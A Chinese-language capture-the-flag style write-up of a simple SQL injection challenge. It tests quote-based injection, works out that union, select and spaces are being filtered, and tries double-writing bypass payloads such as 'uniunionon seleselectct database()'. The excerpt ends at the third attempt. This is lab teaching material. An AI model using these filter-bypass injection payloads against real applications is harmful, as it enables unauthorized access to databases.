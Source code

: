 测试是否可以注入：

```sql
1
-- 报错
1'
-- 正常
1" or 1=1 #
```

猜测这个题应该不是获取root权限，应该是查询数据库的信息。

```sql
-- 查询一下当前数据名字
1" union select database() ; #
```

<img src="../images/sql_inject/simple_sql_inject_1.png"  />

发现没有执行注入的语句，而且在id这一块少了union、select，后面实验还可以发现这里少了空格，但database() ;没有变，一直在，说明union、select和空格被过滤了，并且可能开发人员采用拼接的方式执行sql

先试一下

```sql
-- 发现没有过滤，但似乎不能执行了
1"  uniunionon  seleselectct  database(); #
```

<img src="../images/sql_inject/simple_sql_inject_2.png" />

因为只有两种双写的方式，**一种是在中间，一种 是在两边**，所以换一种试一下

```sql
-- 继续修改，换一种拼接方式
1"  unionunion  selectselect  database(); #
```

<img src="../images/sql_inject/simple_sql_inject_3.png" />
